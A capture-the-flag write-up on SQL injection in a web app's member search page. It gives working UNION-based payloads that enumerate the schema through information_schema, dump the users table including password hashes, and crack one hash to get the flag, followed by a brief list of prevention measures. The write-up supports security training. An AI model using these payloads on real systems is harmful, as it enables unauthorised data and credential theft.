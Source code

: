 ## Where to Locate:

On the http://$IP/?page=memeber we find an input field to search for users

If we enter "0 or 1=1" into the input field and submit, we observe that the process is vulnerable to a sql injection

## Exploit:

Knowing this we can begin by searching for the table name that the query searchs.

We can do this by entering the command ```1 and 1=2 union select 1,concat(table_name) from information_schema.tables where table_schema = database()```

This returns the table name=users

Following which we can search for the column names associated with the users table by entering the following command
```1 and 1=2 union select 1,concat(column_name) from information_schema.columns where table_schema = database()```

Which will return the following column names (user_id, first_name, last_name, town, country, planet, Commentaire, countersign)

We can now use all this information to obtain all the details of the users table and the contents of it's 
columns by entering the following command

```1 and 1=2 union select 1,concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users```

The results from this command return a number of fields of which the following is of particular interest
"5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28"

Following the instructions, we decrypt the md5 hash and obtain the word FortyTwo, we convert it to the lowercase fortytwo, and perform a sh256 encrypt and obtain the hash "10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5" which is our flag

## Prevention:

1. Input validation
2. Parametrized queries
3. Stored procedures
4. Escaping